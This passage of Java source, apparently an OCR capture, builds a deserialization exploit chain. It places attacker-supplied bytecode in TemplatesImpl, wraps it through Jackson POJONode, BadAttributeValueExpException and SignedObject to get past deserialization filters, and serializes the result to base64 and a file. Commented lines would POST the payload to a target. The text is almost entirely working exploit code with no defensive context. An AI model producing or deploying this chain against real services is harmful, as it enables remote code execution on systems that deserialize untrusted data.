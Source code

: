 ```plain
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "fakes0u1");
        setFieldValue(templatesImpl, "_tfactory", null);
        POJONode jsonNodes2 = new POJONode(templatesImpl);
        BadAttributeValueExpException exp2 = new BadAttributeValueExpException(null);
        Field val2 = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val2.setAccessible(true);
        val2.set(exp2,jsonNodes2);
        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(exp2,privateKey,signingEngine);
        POJONode jsonNodes = new POJONode(signedObject);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(exp);
        FileOutputStream fout=new FileOutputStream("1.ser");
        fout.write(barr.toByteArray());
        fout.close();
        FileInputStream fileInputStream = new FileInputStream("1.ser");
        System.out.println(serial(exp));
        deserial(serial(exp));
        //doPOST(exp.toString().getBytes());
        //byte[] byt=new byte[fileInputStream.available()];
        //fileInputStream.read(byt);
        //doPOST(byt);
    }

    public static String serial(Object o) throws IOException, NoSuchFieldException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        //Field writeReplaceMethod = ObjectStreamClass.class.getDeclaredField("writeReplaceMethod");
        //writeReplaceMethod.setAccessible(true);
        oos.writeObject(o);
        oos.close();

        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());
        return base64String;

    }

    public static void deserial(String data) throws Exception {
        byte[] base64decodedBytes = Base64.getDecoder().decode(data);
        ByteArrayInputStream bais = new ByteArrayInputStream(base64decodedBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    private static void Base64Encode(ByteArrayOutputStream bs){
        byte[] encode = Base64.getEncoder().encode(bs.toByteArray());
        String s = new String(encode);
        System.out.println(s);
```